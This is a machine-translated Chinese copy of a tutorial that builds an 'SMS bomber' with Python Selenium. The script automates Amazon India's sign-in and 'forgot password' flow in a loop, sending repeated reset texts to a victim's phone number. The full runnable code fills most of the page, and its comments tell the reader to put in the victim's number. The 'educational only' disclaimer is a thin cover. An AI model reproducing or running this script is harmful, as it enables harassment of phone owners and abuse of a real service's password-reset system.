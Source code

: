 # 使用 Python 的硒基微型项目

> 原文:[https://www . geesforgeks . org/selenium-base-mini-project-use-python/](https://www.geeksforgeeks.org/selenium-base-mini-project-using-python/)

**<u>项目描述:-</u>** 在这里，我们要学习一个简单的短信炸弹人招数(为了好玩和教育的目的)。Selenium 是一个免费工具，可以在不同的浏览器上自动试用。在本教程中，我们将学习如何为给定的各种频率和间隔机械地发送一系列未经请求的邮件短信。

**要求:**

您需要安装 chromedriver 并设置路径。[点击这里](https://sites.google.com/a/chromium.org/chromedriver/downloads)下载，更多信息请关注[这个链接](https://www.geeksforgeeks.org/how-to-install-selenium-in-python/)。

**<u>下面是步骤:</u>**

1.  首先使用这个[链接](https://www.amazon.in/ap/signin?openid.pape.max_auth_age=0&openid.return_to=https%3A%2F%2Fwww.amazon.in%2Fgp%2Fcss%2Fhomepage.html%3Ffrom%3Dhz%26ref_%3Dnav_ya_signin&openid.identity=http%3A%2F%2Fspecs.openid.net%2Fauth%2F2.0%2Fidentifier_select&openid.assoc_handle=inflex&openid.mode=checkid_setup&openid.claimed_id=http%3A%2F%2Fspecs.openid.net%2Fauth%2F2.0%2Fidentifier_select&openid.ns=http%3A%2F%2Fspecs.openid.net%2Fauth%2F2.0&)去亚马逊网站。
2.  然后通过紧急 ctrl + shift + i 或进入浏览器设置并手动点击调查细节来点击调查元素。
3.  然后导航到填充朋友手机号码的框，然后复制 x_path。
4.  然后导航继续按钮，然后复制 x_path。
5.  然后导航忘记密码，然后复制 x_path。
6.  然后再次重复步骤 3。
7.  然后再次重复步骤 4。

**给出一些截图，按照这个指令一步一步来:**

第一步-

![](img/74f0c9b0295f4941e130db4a64efad2b.png)

第二步-

![](img/c97323945e1fe6c93f151e41f6b72420.png)

第三步-

![](img/c9188ccea08ae84959542721b48b0d30.png)

第四步-

![](img/9062751815c61494871f353a18314cee.png)

第五步-

![](img/43c6c2aecf4282bb217d11d1192b897c.png)

第六步-

![](img/2ff1625a6f5de7ac3cfe2365f756a418.png)

现在，运行脚本的方式放入合适的 x_path，并自动发送垃圾邮件短信为您朋友的手机号码。

**注:**本教程仅供教育动机使用，请不要用它来打扰任何人或任何不道德的方式。

下面是实现:

```
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
import time
for i in range(20):
    # create instance of Chrome webdriver
    driver=webdriver.Chrome() 
    driver.get("https://www.amazon.in/ap/signin?openid.pape.max_auth_age=0&openid.return_to=https%3A%2F%2Fwww.amazon.in%2Fgp%2Fcss%2Fhomepage.html%3Ffrom%3Dhz%26ref_%3Dnav_signin&openid.identity=http%3A%2F%2Fspecs.openid.net%2Fauth%2F2.0%2Fidentifier_select&openid.assoc_handle=inflex&openid.mode=checkid_setup&openid.claimed_id=http%3A%2F%2Fspecs.openid.net%2Fauth%2F2.0%2Fidentifier_select&openid.ns=http%3A%2F%2Fspecs.openid.net%2Fauth%2F2.0&")

    # find the element where we have to  
    # enter the xpath
    # target mobile number, change it to victim's number and 
    # also ensure that it's registered on flipkart

    driver.find_element_by_xpath('//*[@id="ap_email"]').send_keys('xxxx6126')
    # find the element continue 
    # request using xpath 
    # clicking on that element 

    driver.find_element_by_xpath('//*[@id="continue"]').click()
    # find the element to send a forgot password 
    # request using xpath 

    driver.find_element_by_xpath('//*[@id="auth-fpp-link-bottom"]').click()
    driver.find_element_by_xpath('//*[@id="continue"]').click()

    # set the interval to send each sms
    time.sleep(4)

    # Close the browser
    driver.close()
```